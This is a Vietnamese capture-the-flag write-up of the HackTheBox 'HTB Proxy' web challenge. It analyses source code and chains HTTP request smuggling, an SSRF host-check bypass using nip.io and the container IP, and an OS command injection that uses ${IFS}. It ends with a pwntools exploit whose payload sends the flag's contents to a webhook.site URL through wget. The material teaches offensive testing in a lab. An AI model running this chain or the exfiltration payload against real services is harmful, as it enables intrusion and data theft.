








+++
date = '2026-06-09T00:02:00+07:00'
draft = false
title = 'HTB Proxy - Hackthebox challenge'
description = 'https://github.com/hackthebox/business-ctf-2024/'
tags = ['hackthebox', 'challenge']
+++
# HTB Proxy

[https://github.com/hackthebox/business-ctf-2024/](https://github.com/hackthebox/business-ctf-2024/tree/main/web/\[Easy]%20HTB%20Proxy)

## Application Overview



*localhost:1337*

Truy cập vào `/server-status` cho phép ta xem được thông tin về machine.



*/server-status*

## Phân tích source code

```
├── build_docker.sh
├── challenge
│   ├── backend
│   │   ├── index.js
│   │   └── package.json
│   └── proxy
│       ├── go.mod
│       ├── includes
│       │   └── index.html
│       └── main.go
├── config
│   └── supervisord.conf
├── Dockerfile
├── entrypoint.sh
├── flag.txt
```

Trong `Dockerfile` ta thấy được 1 vài thông tin như công nghệ machine sử dụng (`nodejs`, `go`, ...) và các config cơ bản khác như mọi CTF challenges khác.

Challenge bao gồm 1 proxy viết bằng Golang và 1 backend server viết bằng NodeJs.

### HTTP Smuggling

Bắt đầu với `challenge/proxy/main.go`

```go
func main() {
	var serverPort string = "1337"
	var version string = "1.0.0"
	logHeader(version)

	ln, err := net.Listen("tcp", ":"+serverPort)
	if err != nil {
		prettyLog(2, "Error listening: "+err.Error())
		return
	}

	defer ln.Close()
	prettyLog(1, "HTB proxy listening on :"+serverPort)

	for {
		conn, err := ln.Accept()
		if err != nil {
			prettyLog(2, "Error accepting: "+err.Error())
			continue
		}

		go handleRequest(conn)
	}
}
```

Một reverse proxy lắng nghe trên port 1337 và xử các request trước khi gửi nó cho backend.

<pre class="language-go"><code class="lang-go">func handleRequest(frontendConn net.Conn) {
	buffer := make([]byte, 1024)

	length, err := frontendConn.Read(buffer)
	var remoteAddr string = frontendConn.RemoteAddr().String()

	prettyLog(1, "Connection from: "+remoteAddr)

	if err != nil {
		prettyLog(2, "Error reading: "+err.Error())
		frontendConn.Close()
		return
	}

	var requestBytes = buffer[:length]
	request, err := requestParser(requestBytes, remoteAddr)

	if err != nil {
		var responseText string = badReqResponse(err.Error())
		frontendConn.Write([]byte(responseText))
		frontendConn.Close()
		return
	}
<strong>	[...]
</strong>}
</code></pre>

Phân tích source code của function `requestParser().`

```go
func requestParser(requestBytes []byte, remoteAddr string) (*HTTPRequest, error) {
	var requestLines []string = strings.Split(string(requestBytes), "\r\n")
	var bodySplit []string = strings.Split(string(requestBytes), "\r\n\r\n")

	if len(requestLines) < 1 {
		return nil, fmt.Errorf("invalid request format")
	}
	[...]
```

Ta thấy hàm này parse `requestBytes` bằng cách tách các thành phần phân tách bởi `\r\n` và `\r\n\r\n`. Với kinh nghiệm làm dev được 2 tháng của mình thì bài học quan trọng là đừng chế cháo những thứ đã có sẵn :joy:.

Mặc dù parse request theo logic như trên nhưng sau khi check valid các kiểu thì lại quăng cả cái `requestBytes` cho `backend.`

```go
_, err = backendConn.Write(requestBytes)
if err != nil {
	var responseText string = errorResponse("Error sending request to backend")
	frontendConn.Write([]byte(responseText))
	frontendConn.Close()
	backendConn.Close()
	return
}
```

Với logic parse request như vậy có thể dễ dàng dẫn tới [HTTP Smuggling](https://portswigger.net/web-security/request-smuggling).

Ví dụ với payload như sau thì proxy chỉ xử lý phần request phía trên, nhưng khi quăng cho backend thì backend sẽ nhận được 2 request.

```
GET / HTTP/1.1\r\n
Host: localhost:1337\r\n
\r\n
GET /secret HTTP/1.1\r\n
Host: localhost:5000\r\n
\r\n
```

Tuy nhiên ta sẽ xác thực con bug này sau bởi vì còn nhiều thứ hơn để phân tích.

### DNS Re-binding leads to SSRF

Sau khi parse request xong thành các cấu trúc định nghĩa trước thì proxy tiến hành kiểm tra tính hợp lệ.

Để tóm gọn lại thì có 3 bài kiểm tra

* Chặn các request tới endpoint `/flushinterface.`
*   Kiểm tra xem `host:port` trong Header có hợp lệ hay không (là ipv4 hoặc domain) và chặn nếu là request gửi tới các host bị blacklist hoặc là loopback address (127.0.0.1).

    

    
*   Kiểm tra trong body có chứa các thông tin không hợp lệ hay không (SQLi, XSS, ...)

    

Cái thứ 1 và cái thứ 3 ta có thế bypass bằng bug HTTP Smuggling phía trên. Giờ vấn đề cần giải quyết là bypass host check.

Ta có thể dễ dàng bypass được blacklist check bằng cách sử dụng dịch vụ [`nip.io`](https://nip.io/).

Đơn giản mà nói thì domain `magic.127-0-0-1.nip.io` sẽ được phân giải thành `127.0.0.1`.

Tiếp theo là loopback address, khi quan sát lại các thông tin ta đã có, ở bước đầu, ta có được local IP address của machine.



Vậy thay vì mình gửi request tới `127.0.0.1` thì gửi request tới `172.17.0.2` mang lại kết quả tương tự.



### OS Command Injection

Trong `challenge/backend/index.js`

```javascript
app.post("/flushInterface", validateInput, async (req, res) => {
    const { interface } = req.body;

    try {
        const addr = await ipWrapper.addr.flush(interface);
        res.json(addr);
    } catch (err) {
        res.status(401).json({message: "Error flushing interface"});
    }
});
```

Backend nhận biến interface từ request body, sau đó truyền vào hàm `ipWrapper.addr.flush(interface)`

```javascript
function flush(interfaceName) {
    return new Promise((resolve, reject) => {
        exec(`ip address flush dev ${interfaceName}`, (error, stdout, stderr) => {
            if (stderr) {
                if(stderr.includes('Cannot find device')) {
                    reject(new Error('Cannot find device ' + interfaceName));
                } else {
                    reject(new Error('Error flushing IP addresses: ' + stderr));
                }
                return;
            }

            resolve();
        });
    });
}
```

Giá trị của biến `interface` được truyền trực tiếp vào hàm `exec()` bằng nối chuỗi -> OS Command Injection.

Tuy nhiên thì giá trị của `interface` cũng được validate:

```javascript
const validateInput = (req, res, next) => {
    const { interface } = req.body;

    if (
        !interface || 
        typeof interface !== "string" || 
        interface.trim() === "" || 
        interface.includes(" ")
    ) {
        return res.status(400).json({message: "A valid interface is required"});
    }

    next();
}
```

Hàm `validateInput` sẽ check xem biến `interface` có chứa `" "` hay không, điều này dẫn đến nếu có thực thi được OS commands thì cũng khi thực thi được các lệnh đơn giản như `ls.`

Tuy nhiên ta lại có thể bypass filter này bằng cách sử dụng `${IFS}`

`${IFS}` là biến môi trường chứa giá trị là dấu phân cách của môi trường bash.

Vậy ta có thể thực thi OS Command với cú pháp như sau:

```bash
;cat${IFS}/fl*
```

## Exploit

Kết hợp các thông tin đã có ta tiến hành xây dựng payload khai thác.

Trước tiên ta sẽ test con bug HTTP Smuggling.

Không hiểu sao khi test bằng BurpSuite thì mình gặp lỗi nên mình sẽ sử dụng `pwntools.`

```python
from pwn import *

r = remote('localhost', 1337)

request = f"""POST /getAddress HTTP/1.1\r
Host: magic-172-17-0-2.nip.io:5000\r
Content-Type: application/x-www-form-urlencoded\r
Content-Length: 1\r
\r
a\r
\r
GET /flushinterface HTTP/1.1\r
Host: localhost:5000\r
Content-Type: application/json\r
\r
"""

print(request)
r.send(request.encode())
print(r.recvall().decode())
```

Nhắc lại 1 chút nếu bạn chưa hiểu tại sao ta có thể bypass được body check.

Bởi vì do parse request body dựa trên `\r\n\r\n` thì body content mà proxy lấy được chỉ là `a` .

Còn phần còn lại thì proxy không hề động tới, cái này là do lỗi logic trong khi parse request.

### exploit.py

```python
from pwn import *

r = remote('localhost', 1337)

payload = '{"interface": ";wget${IFS}https://webhook.site/349815f8-ec94-4e32-86a1-f22f6e044c5a?q=$(cat${IFS}/fl*)"}'

request = f"""POST /getAddress HTTP/1.1\r
Host: magic-172-17-0-2.nip.io:5000\r
Content-Type: application/x-www-form-urlencoded\r
Content-Length: 1\r
\r
a\r
\r
POST /flushinterface HTTP/1.1\r
Host: localhost:5000\r
Content-Type: application/json\r
Content-Length: {len(payload)}\r
\r
"""
request += payload
print(request)
r.send(request.encode())
print(r.recvall().decode())
```


